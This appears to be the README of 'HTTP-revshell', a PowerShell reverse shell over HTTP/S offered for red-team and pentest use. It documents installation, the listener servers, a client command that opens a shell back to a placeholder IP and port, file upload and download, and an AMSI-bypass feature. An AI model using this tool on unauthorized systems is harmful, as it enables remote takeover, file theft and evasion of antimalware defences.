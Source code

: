 Powershell HTTP/S Reverse Shell
------------

HTTP-revshell is a tool focused on redteam exercises and pentesters. This tool provides a reverse connection through the http/s protocol.

![Alt text](images/revshell.jpg "Server")

Installation
------------

```shell
git clone https://github.com/3v4Si0N/HTTP-revshell.git
cd HTTP-revshell/
pip3 install -r requirements.txt
```

server-multisession.py - server multisession
------------

```
This server allows multiple connection of clients.
There is a menu with three basic commands: sessions, interact and exit
     - sessions --> show currently active sessions
     - interact --> interacts with a session (Example: interact <session_id>)
     - exit --> close the application
```
**IMPORTANT**: To change the session press *CTRL+d* to exit the current session without closing it.

server.py - server unisession
------------

Server usage:
```
usage: server.py [-h] [--ssl] host port

Process some integers.

positional arguments:
  host        Listen Host
  port        Listen Port

optional arguments:
  -h, --help  show this help message and exit
  --ssl       Send traffic over ssl
```

Invoke-WebRev.ps1 - client
------------

Client usage:
```
Import-Module .\Invoke-WebRev.ps1
Invoke-WebRev -ip IP -port PORT [-ssl]
```

Extra functions
------------

```
Upload
    Usage: upload /src/path/file C:\dest\path\file
```

```
Download
    Usage: download C:\src\path\file /dst/path/file
```

Features
------------

    - SSL
    - Proxy Aware
    - Upload Function
    - Download Function
    - Error Control
    - AMSI bypass
    - Multiple sessions [only server-multisession.py]
    - Autocomplete PowerShell functions (optional) [only server.py]

TODO
------------

    - ??
    
